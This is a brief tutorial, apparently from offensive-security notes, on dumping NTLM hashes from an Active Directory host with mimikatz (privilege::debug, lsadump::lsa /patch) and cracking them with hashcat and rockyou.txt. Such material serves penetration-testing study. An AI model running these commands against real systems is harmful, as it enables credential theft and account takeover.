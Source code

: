 # Dumping Hashes with mimikatz

### Introduction

Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network

We'll be focusing on dumping the NTLM hashes with mimikatz and then cracking those hashes using hashcat

***

### Dump Hashes w/ mimikatz

1. `cd Downloads` && mimikatz.exe this will cd into the directory that mimikatz is kept as well as run the mimikatz binary&#x20;
   *

       <figure><img src="../../../../../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>
2. `privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly&#x20;
   *

       <figure><img src="../../../../../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>
3. `lsadump::lsa /patch` Dump those hashes!&#x20;
   *

       <figure><img src="../../../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

***

### Crack those hashes w/ hashcat

1. `hashcat -m 1000 <hash> rockyou.txt`&#x20;

<figure><img src="../../../../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>
